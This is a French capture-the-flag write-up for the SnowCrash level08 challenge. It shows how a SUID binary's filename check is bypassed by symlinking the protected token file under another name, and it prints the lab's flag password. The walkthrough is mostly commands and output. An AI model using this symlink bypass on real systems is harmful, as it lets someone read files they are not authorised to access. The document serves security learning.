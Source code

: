 On trouve un programme level08, avec bit SUID actif du user flag08, et un fichier token.

```
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

En checkant le programme avec ltrace, en tentant de lire le token, on a cela : 

```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7c4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                  = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)              = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

On se rend compte que le programme permet de lire tout ce qui ne se nomme pas token :

```
level08@SnowCrash:~$ ./level08 /tmp/yo
yo
level08@SnowCrash:~$ ltrace ./level08 /tmp/yo
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/yo", "token")                                = NULL
open("/tmp/yo", 0, 014435162522)                          = 3
read(3, "yo\n", 1024)                                     = 3
write(1, "yo\n", 3yo
)                                       = 3
+++ exited (status 3) +++
```

Si le nom du programme n'est que le seul obstacle, on peut tenter de créer un symlink avec un autre programme qui ne contient pas le même nom :

```
ln -s /home/user/level08/token /tmp/abcde
```

Ce qui nous permet de lire le fichier token contenant le password de flag08 :

```
level08@SnowCrash:~$ ./level08 /tmp/abcde
quif5eloekouj29ke0vouxean
```

Il ne reste qu'à récupérer le flag !